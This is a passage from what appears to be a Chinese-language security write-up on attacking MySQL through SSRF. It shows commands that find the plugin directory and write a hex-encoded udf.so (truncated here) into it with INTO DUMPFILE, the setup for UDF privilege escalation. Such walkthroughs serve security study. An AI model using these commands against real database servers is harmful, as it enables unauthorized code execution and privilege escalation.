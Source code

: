 ```bash
mysql -uroot -h127.0.0.1  -e "show variables like 
'%plugin%';"
```

![image-20210810184820109](images/image-20210810184820109.png) 

拿到插件目录为：

```
/usr/lib/mysql/plugin/
```



# 6. SSRF 攻击 MySQL

## 写入 udf.so 到插件目录下

通过 [UDF 辅助提权](https://www.sqlsec.com/tools/udf.html) 快速 copy payload 本地进行流量复现，构造最终的 payload 进行插件写入：

```bash
mysql -uroot -h127.0.0.1  -e "SELECT 0x7f454c4602010100000000000000000003003e0....0000001815200000...0000 INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';"
```

![image-20210810190234516](images/image-20210810190234516.png) 
